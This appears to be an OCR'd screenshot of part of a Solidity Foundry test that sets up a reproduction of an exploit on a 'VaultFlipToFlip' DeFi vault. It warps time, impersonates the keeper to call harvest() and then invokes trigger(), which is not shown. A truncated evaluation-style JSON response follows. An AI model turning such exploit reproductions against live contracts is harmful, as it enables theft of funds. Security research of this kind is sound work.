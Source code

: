 │             "After X blocks, the keeper of VaultFlipToFlip calls harvest()"                                                                                                                                                                          │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         cheat.warp(1655908339);                                                                                                                                                                                                                      │
│         cheat.roll(7556391);                                                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         // Keeper needs to call flip.harvest() so that flip.earned(address(this)) > 0                                                                                                                                                                │
│         cheat.prank(keeper);                                                                                                                                                                                                                         │
│         (bool success, ) = address(flip).call(                                                                                                                                                                                                       │
│             abi.encodeWithSignature("harvest()")                                                                                                                                                                                                     │
│         );                                                                                                                                                                                                                                           │
│         require(success, "flip.harvest() fails");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│         emit log_string("Exploit begins:");                                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                      │
│         trigger();                                                                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │